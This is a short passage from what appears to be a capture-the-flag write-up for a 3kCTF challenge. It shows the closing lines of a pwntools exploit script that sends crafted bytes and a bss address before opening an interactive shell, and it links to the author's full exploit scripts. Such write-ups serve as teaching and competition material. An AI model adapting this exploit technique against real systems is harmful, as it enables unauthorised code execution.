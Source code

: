 ```python
io.send(r2)
pause()
print('NOW')
io.send('\x8f')
pause()
io.send(p64(0x0) + p64(bss + 0x310) + '\x00'*43)
io.interactive()


```
#### Second blood.

Both exploit scripts at https://github.com/hkraw/ctf_/tree/master/3kctf

